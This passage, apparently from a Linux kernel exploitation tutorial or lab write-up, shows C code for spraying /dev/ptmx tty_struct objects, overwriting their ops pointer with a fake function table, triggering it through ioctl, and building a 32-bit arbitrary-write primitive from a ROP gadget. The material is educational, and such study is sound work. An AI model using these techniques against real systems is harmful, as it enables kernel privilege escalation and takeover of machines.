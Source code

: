 ```c
// Heap spray
int spray[100];
for (int i = 0; i < 100; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
}
```

Next using the bug we overwrite the `*ops` member of the `tty_struct`.

```c
char buf[0x500];
...
// Let p be a pointer to fake function table
long long* p = (long long*)&buf;

// We identified that the function that gets called is 12th element in the function table
p[12] = 0x4141414141414141;

// Location of *ops at 0x418
*(long long*)&buf[0x418] = address_of_buf_in_memory;
write(fd, buf, 0x500);
```

Now the last step is to trigger the code that executes the faked function. This can be achieved by calling `ioctl()` on the `/dev/ptmx` handle.

```c
for (int i = 0; i < 100; i++) {
    ioctl(spray[i], rcx, rdx);
}
```

This approach enables us to also pass values into `rcx` and `rdx` registers before jumping to our arbitrary address `0x4141414141414141`.

## Crafting other primitives

This way we can call any function we want but it can also be used to craft AAR (Arbitrary Address Read) and AAW (Arbitrary Address Write) primitive. By finding ROP gadgets that use `rcx` and `rdx` registers to write to memory.

Below is an example of arbitrary write for 32 bits (4 bytes).

```c
void AAW32(long long addr, unsigned int val) {
    long long* p = (long long*)&buf;
    // mov dword ptr [rdx], ecx ; ret
    p[12] = 0xffffffff8101083d;

    *(long long*)&buf[0x418] = g_buf;
    write(fd, buf, 0x500);

    for (int i = 0; i < 100; i++) {
        ioctl(spray[i], val, addr);
    }
}
```
